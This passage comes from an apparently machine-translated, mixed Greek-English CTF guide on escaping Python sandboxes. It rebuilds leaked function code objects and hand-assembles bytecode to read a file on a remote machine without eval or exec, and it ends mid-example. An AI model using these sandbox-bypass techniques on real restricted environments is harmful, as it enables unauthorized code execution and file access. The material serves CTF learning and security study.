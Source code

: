 ### Αναδημιουργία μιας διαρρεύσουσας συνάρτησης

{% hint style="warning" %}
Στο παρακάτω παράδειγμα, θα πάρουμε όλα τα δεδομένα που χρειάζονται για να αναδημιουργήσουμε τη συνάρτηση απευθείας από το αντικείμενο κώδικα της συνάρτησης. Σε ένα **πραγματικό παράδειγμα**, όλες οι **τιμές** για την εκτέλεση της συνάρτησης **`code_type`** είναι αυτές που **θα χρειαστεί να διαρρεύσουν**.
{% endhint %}
```python
fc = get_flag.__code__
# In a real situation the values like fc.co_argcount are the ones you need to leak
code_obj = code_type(fc.co_argcount, fc.co_kwonlyargcount, fc.co_nlocals, fc.co_stacksize, fc.co_flags, fc.co_code, fc.co_consts, fc.co_names, fc.co_varnames, fc.co_filename, fc.co_name, fc.co_firstlineno, fc.co_lnotab, cellvars=fc.co_cellvars, freevars=fc.co_freevars)

mydict = {}
mydict['__builtins__'] = __builtins__
function_type(code_obj, mydict, None, None, None)("secretcode")
#ThisIsTheFlag
```
### Bypass Defenses

In previous examples at the beginning of this post, you can see **how to execute any python code using the `compile` function**. This is interesting because you can **execute whole scripts** with loops and everything in a **one liner** (and we could do the same using **`exec`**).\
Anyway, sometimes it could be useful to **create** a **compiled object** in a local machine and execute it in the **CTF machine** (for example because we don't have the `compiled` function in the CTF).

For example, let's compile and execute manually a function that reads _./poc.py_:
```python
#Locally
def read():
return open("./poc.py",'r').read()

read.__code__.co_code
't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
```

```python
#On Remote
function_type = type(lambda: None)
code_type = type((lambda: None).__code__) #Get <type 'type'>
consts = (None, "./poc.py", 'r')
bytecode = 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
names = ('open','read')

# And execute it using eval/exec
eval(code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ()))

#You could also execute it directly
mydict = {}
mydict['__builtins__'] = __builtins__
codeobj = code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ())
function_type(codeobj, mydict, None, None, None)()
```
Αν δεν μπορείτε να αποκτήσετε πρόσβαση στο `eval` ή `exec`, μπορείτε να δημιουργήσετε μια **κατάλληλη συνάρτηση**, αλλά η άμεση κλήση της συνήθως θα αποτύχει με: _ο κατασκευαστής δεν είναι προσβάσιμος σε περιορισμένη λειτουργία_. Έτσι, χρειάζεστε μια **συνάρτηση που δεν είναι στο περιορισμένο περιβάλλον για να καλέσετε αυτή τη συνάρτηση.**
```python
#Compile a regular print
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
```